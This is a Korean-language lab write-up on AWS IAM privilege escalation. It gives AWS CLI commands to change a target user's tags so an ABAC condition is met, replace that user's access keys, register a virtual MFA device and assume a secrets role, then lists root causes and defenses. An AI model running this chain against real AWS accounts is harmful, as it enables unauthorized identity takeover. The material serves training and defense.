

# 05. IAM PrivEsc by Key Rotation

- 난이도: Moderate
- 핵심: Tag 기반 조건, Access Key 관리와 MFA가 결합된 IAM 권한 상승을 분석합니다.

## Attack Path



## 1. 조건부 권한 읽기

현재 User의 Policy에서 `iam:TagUser`, `iam:CreateAccessKey`, `iam:ListAccessKeys`와 Condition을 찾습니다.

```text
Action은 허용됐는가?
Resource는 누구인가?
RequestTag 또는 ResourceTag 조건은 무엇인가?
Tag 자체를 바꿀 권한이 있는가?
```

Lab에서는 대상 User에 특정 Tag가 있으면 Key 관리 권한이 활성화됩니다.

## 2. 대상 Tag 변경

```bash
PROFILE=<PROFILE>
TARGET_USER=<TARGET_USER>

aws iam tag-user \
  --user-name "$TARGET_USER" \
  --tags Key=<CONDITION_TAG>,Value=<CONDITION_VALUE> \
  --profile "$PROFILE"
```

ABAC에서 Tag는 권한 판단의 입력입니다. 낮은 권한 Principal이 보안 경계에 쓰이는 Tag를 수정할 수 있으면 조건을 스스로 만족시킬 수 있습니다.

## 3. Access Key Slot 확인과 생성

IAM User는 동시에 가질 수 있는 Access Key 수가 제한됩니다. Scenario가 의도한 비활성 Key만 식별해 제거하고 새 Key를 생성합니다.

```bash
aws iam list-access-keys \
  --user-name "$TARGET_USER" \
  --profile "$PROFILE"

aws iam delete-access-key \
  --user-name "$TARGET_USER" \
  --access-key-id <INACTIVE_SCENARIO_KEY_ID> \
  --profile "$PROFILE"

aws iam create-access-key \
  --user-name "$TARGET_USER" \
  --profile "$PROFILE"
```

발급 결과는 한 번만 표시됩니다. Repository나 Screenshot에 남기지 않고 Lab 전용 Profile에 저장합니다.

## 4. MFA 조건이 있는 Role

Privileged User가 바로 Role을 맡을 수 없다면 Trust Policy의 MFA 조건을 확인합니다.

```bash
aws sts assume-role \
  --role-arn <SECRETS_ROLE_ARN> \
  --role-session-name pre-mfa-check \
  --profile <PRIVILEGED_PROFILE>
```

Scenario에서 허용한 Virtual MFA Device를 만든 뒤 대상 User에 연결합니다.

```bash
aws iam create-virtual-mfa-device \
  --virtual-mfa-device-name <LAB_MFA_NAME> \
  --outfile <LOCAL_QR_FILE> \
  --bootstrap-method QRCodePNG \
  --profile <PRIVILEGED_PROFILE>

aws iam enable-mfa-device \
  --user-name "$TARGET_USER" \
  --serial-number <MFA_DEVICE_ARN> \
  --authentication-code1 <CODE_1> \
  --authentication-code2 <CODE_2> \
  --profile <PRIVILEGED_PROFILE>
```

그다음 MFA Serial과 현재 Code를 포함해 Role Session을 요청합니다.

## Root Cause

- 권한 경계에 사용되는 Tag를 공격자가 변경할 수 있었습니다.
- 다른 User의 Access Key를 생성할 수 있었습니다.
- Privileged User가 자신의 MFA Device를 관리할 수 있어 공격자가 MFA 조건까지 만족시켰습니다.
- 여러 개의 제한된 Action이 결합되어 완전한 Identity 전환을 만들었습니다.

## Defense

- ABAC Tag 수정 권한과 Tag 기반 허용 정책을 같은 Principal에 주지 않습니다.
- 타 User의 Key·MFA 관리 권한을 Help Desk 등 분리된 Role에 한정합니다.
- Access Key 생성, Tag 변경, MFA 변경과 AssumeRole을 연속 행위로 탐지합니다.
- 사람의 AWS 접근은 장기 Key보다 Federation과 강한 MFA를 사용합니다.
